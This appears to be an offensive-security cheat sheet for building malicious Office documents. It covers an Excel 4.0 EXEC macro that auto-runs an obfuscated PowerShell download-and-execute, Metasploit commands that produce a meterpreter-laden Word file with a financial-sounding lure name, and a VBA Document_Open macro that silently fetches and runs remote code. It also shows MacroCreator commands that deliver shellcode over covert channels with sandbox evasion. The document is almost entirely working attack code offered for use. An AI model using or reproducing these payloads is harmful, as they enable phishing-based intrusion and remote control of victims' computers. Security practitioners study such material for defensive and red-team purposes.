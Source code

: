 
## XLM Excel 4.0 - EXEC

1. Right Click to the current sheet
2. Insert a **Macro IntL MS Excel 4.0**
3. Add the `EXEC` macro
    ```powershell
    =EXEC("poWerShell IEX(nEw-oBject nEt.webclient).DownloAdStRiNg('http://10.10.10.10:80/update.ps1')")
    =halt()
    ```
4. Rename cell to **Auto_open**
5. Hide your macro worksheet by a right mouse click on the sheet name **Macro1** and selecting **Hide**


## DOCM - Metasploit

```ps1
use exploit/multi/fileformat/office_word_macro
set payload windows/meterpreter/reverse_http
set LHOST 10.10.10.10
set LPORT 80
set DisablePayloadHandler True
set PrependMigrate True
set FILENAME Financial2021.docm
exploit -j
```

## DOCM - Download and Execute

> Detected by Defender (AMSI)

```ps1
Sub Execute()
Dim payload
payload = "powershell.exe -nop -w hidden -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$v=new-object net.webclient;$v.proxy=[Net.WebRequest]::GetSystemWebProxy();$v.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $v.downloadstring('http://10.10.10.10:4242/exploit');"
Call Shell(payload, vbHide)
End Sub
Sub Document_Open()
Execute
End Sub
```

## DOCM - Macro Creator

* https://github.com/Arno0x/PowerShellScripts/tree/master/MacroCreator

```ps1
# Shellcode embedded in the body of the MS-Word document, no obfuscation, no sandbox evasion:
C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d body
# Shellcode delivered over WebDAV covert channel, with obfuscation, no sandbox evasion:
C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -url webdavserver.com -d webdav -o
# Scriptlet delivered over bibliography source covert channel, with obfuscation, with sandbox evasion:
C:\PS> Invoke-MacroCreator -i regsvr32.sct -t file -url 'http://my.server.com/sources.xml' -d biblio -c 'regsvr32 /u /n /s /i:regsvr32.sct scrobj.dll' -o -e
```
